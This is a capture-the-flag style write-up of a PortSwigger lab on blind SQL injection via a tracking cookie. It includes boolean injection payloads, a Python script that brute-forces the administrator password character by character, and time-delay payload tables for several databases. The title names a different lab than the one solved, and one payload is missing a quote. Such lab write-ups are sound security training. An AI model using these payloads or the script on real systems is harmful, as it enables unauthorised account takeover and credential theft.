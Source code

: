 # Lab09: SQL injection UNION attack, retrieving multiple values in a single column
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`
* vulnerability: `Blind SQL injection with conditional responses`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Proof of Concept
1. Unlike the previous labs, I do not see the results of the SQL query or any error messages. So, I must rely on studying the `application's behavior`. 
2. From the description of the lab, It tells me that the application uses a `tracking cookie` and uses this cookie to perform "authentication" within a SQL query. It also tells me that the web application returns a `Welcome Back` message if the query returns any rows of data. 
3. Although the description of the lab specifies that there is a `users` table, in a real-world scenario I may not know, so I have an additional step to check for a `users` table. 
4. First, I intercept the request in `Burp Suite` and alter the `TrackingID` cookie with the following payloads:  
* `' AND 1=1-- -`
* `' AND 1=2-- -`  
> Observe how the web application responds. There is no "Welcome back" message with the 1=2 payload

![descript](images/sqli-practitioner-lab09-1.png)  
![descript](images/sqli-practitioner-lab09-2.png)  
5. Because I can use the existence of `Welcome back` in the application's response as a check if the query ran in the back end, I can now alter my payload to check for the existence of a `users` table: `' AND (SELECT 'success' FROM users LIMIT 1)='success'-- -`
> `LIMIT 1` is necessary to ensure the query only retrieves one `row` from the users table. If the users table has multiple rows and the query tries to return all of them, the subquery will fail because the comparison `SELECT 'success' from users = 'success'` expects the subquery to return one value (`like 'success'`)

![descript](images/sqli-practitioner-lab09-limit.png)  
6. Now that I verified the existence of the `users` table, I can now check for the existence of `administrator` in the `username` column of the users table. I can just add a `WHERE` clause to my previous payload like: `' AND (SELECT 'success' FROM users WHERE username = 'administrator)='success'-- -`  
![descript](images/sqli-practitioner-lab09-admin-check.png)  
7. Now I must check the length of the `password` for the administrator user. To do this I can use the following payload: `' AND (SELECT 'success' FROM users WHERE username = 'administrator' AND LENGTH(password)>1)='success'-- -`
> This will check if the length of the password is greater than 1, and I can keep incrementing it until I do not see the `Welcome Back` message anymore. The password length is 20! 

![descript](images/sqli-practitioner-lab09-pass-length.png)  
8. Now that I know the length of the `password` for `administrator`, I can start checking for each value of password using `Burp Intruder`. I can use the following payload: `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator')='a'-- -`. 
Within Intruder, I can:
* use `Cluster Bomb Attack Type` 
* select 'a' and '1' as my `payload position markers`. 
* use Burp's `Grep-Match` settings and configure it to look for "Welcome back" in the server's response to identify successful matches.  
9. Although this process is possible within Burp Suite, I have the community version- so the speed at which Burp sends the requests are throttled, and it would take hours for it to fully complete. So instead, I created a simple python script:
```
import requests

# global variables 
url = 'https://0ae700a0039e29be803a12be00420073.web-security-academy.net/filter?category=Pets'
characters = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 20
password = ""

for x in range(1, 21): 
    for c in characters:
        cookies = dict(TrackingId=f"OYCgZkexDJmwvMoJ' AND (SELECT SUBSTRING(password, {x}, 1) FROM users WHERE username = 'administrator')='{c}'-- -")
        r = requests.get(url, cookies=cookies)

        if "Welcome back!" in r.text: 
            password += c
            break

print(f"The password is {password}")

```
10. From running this script I got the password value of `7iy30tfn4hwemekoxteh`. Using this password along with the `administrator` user on the login page will solve the lab!

## Notes
* Unlike attacks like `UNION-based` injections, `Blind SQLi` does not give the malicious actor output from the original query or error messages. So we must rely on the the web application's behavior. 
* There are two main ways to achieve this: 
  * `boolean attacks`: 1=1, 1=2
  * `time-based attacks`: pg_sleep(10), SLEEP(10)

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
* **Oracle** 	`dbms_pipe.receive_message(('a'),10)`
* **Microsoft** 	`WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT pg_sleep(10)`
* **MySQL** 	`SELECT SLEEP(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.
* **Oracle** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
* **Microsoft** 	`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
* **MySQL** 	`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')` 
